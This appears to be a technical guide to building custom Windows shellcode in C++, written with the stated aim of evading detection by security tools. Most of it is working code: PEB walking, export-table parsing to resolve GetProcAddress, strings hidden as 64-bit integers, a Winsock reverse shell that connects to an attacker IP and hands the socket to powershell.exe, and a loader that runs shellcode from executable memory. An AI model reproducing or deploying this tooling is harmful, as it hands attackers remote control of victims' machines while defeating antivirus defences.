# Crafting Custom Windows Shellcode: A Technical Guide

## Introduction
This guide demonstrates how to create custom shellcode in C++ to bypass security tools that detect common frameworks like Metasploit. Custom shellcode offers unique signatures and greater control over payload behavior.

## Windows Memory Fundamentals

### Key Structures
- **PEB (Process Environment Block)**: User-accessible structure containing process information
  - Module lists
  - Process parameters
  - Security data

- **TEB (Thread Environment Block)**: Thread-specific data structure
  - Contains pointer to PEB
  - Accessed via FS/GS registers (FS for 32-bit, GS for 64-bit)

### Accessing the PEB
```cpp
// 64-bit
PPEB peb = (PPEB)__readgsqword(0x60);

// 32-bit 
PPEB peb = (PPEB)__readfsdword(0x30);
```

## Module Enumeration

### PEB_LDR_DATA Structure
```cpp
typedef struct _PEB_LDR_DATA {
    ULONG Length;
    UCHAR Initialized;
    PVOID SsHandle;
    LIST_ENTRY InLoadOrderModuleList; // Primary module list
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    PVOID EntryInProgress;
} PEB_LDR_DATA, *PPEB_LDR_DATA;
```

### Finding Kernel32.dll
1. Located as third entry in module list:
   - First entry: Main executable
   - Second entry: ntdll.dll
   - Third entry: kernel32.dll

2. Code implementation:
```cpp
PLDR_DATA_TABLE_ENTRY kernel32Entry = CONTAINING_RECORD(
    peb->Ldr->InMemoryOrderModuleList.Flink->Flink->Flink,
    LDR_DATA_TABLE_ENTRY, 
    InMemoryOrderLinks
);
```

## PE Header Parsing

### Key Steps
1. Get DOS header from module base
2. Locate NT headers via e_lfanew
3. Access export directory
4. Parse function address/name tables

```cpp
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)moduleBase;
PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)((BYTE*)dosHeader + dosHeader->e_lfanew);
PIMAGE_EXPORT_DIRECTORY exportDir = (PIMAGE_EXPORT_DIRECTORY)(
    (BYTE*)dosHeader + 
    ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress
);
```

## Function Resolution

### Finding GetProcAddress
1. Search export name table for "GetProcAddress"
2. Use ordinal to locate function address
3. Store as function pointer for later use

```cpp
uint64_t GetProcA = 0x41636F7250746547; // "GetProcA"

for (DWORD i = 0; i < exportDir->NumberOfNames; i++) {
    char* name = (char*)((BYTE*)dosHeader + nameTable[i]);
    if (*(uint64_t*)name == GetProcA) {
        GetProcAddress = (_GetProcAddress)(
            (BYTE*)dosHeader + 
            addressTable[ordinalTable[i]]
        );
        break;
    }
}
```

## String Obfuscation Technique

Store strings as little-endian 64-bit values:

```cpp
// "LoadLibraryA"
uint64_t LoadLibA_part1 = 0x7262694C64616F4C; // "LoadLibr"
uint64_t LoadLibA_part2 = 0x0000000041797261; // "aryA\0"

// "User32.dll" 
uint64_t User32_part1 = 0x642E323372657375; // "User32.d"
uint64_t User32_part2 = 0x0000000000006C6C; // "ll\0"
```

## Building a Reverse Shell

Key components:
1. Network initialization (WSAStartup)
2. Socket creation (WSASocketA)
3. Connection (WSAConnect)
4. Process creation (CreateProcessA)

```cpp
// Initialize Winsock
WSAStartup(MAKEWORD(2, 2), &wsadata);

// Create socket
SOCKET sock = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

// Connect to attacker
sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(2106); 
addr.sin_addr.s_addr = inet_addr("192.168.210.130");
WSAConnect(sock, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL, NULL, NULL);

// Create reverse shell process
STARTUPINFO si = {0};
si.cb = sizeof(si);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sock;

CreateProcessA(NULL, "powershell.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
```

## Shellcode Conversion Process

1. Compile in Release mode
2. Disable security cookies (/GS-)
3. Set breakpoint on payload function
4. Extract assembly from disassembly view
5. Convert to hex shellcode format

## Final Shellcode Execution

```cpp
unsigned char shellcode[] = "\x48\x89\x5C\x24\x20\x55\x56...";

PVOID execMem = VirtualAlloc(0, sizeof(shellcode), 
    MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);

memcpy(execMem, shellcode, sizeof(shellcode));

CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)execMem, NULL, 0, NULL);
```

## Key Advantages

1. **Evasion**: Unique code signature bypasses signature detection
2. **Control**: Fine-grained control over payload behavior
3. **Flexibility**: Can be adapted for various payload types
4. **Stealth**: No reliance on well-known frameworks

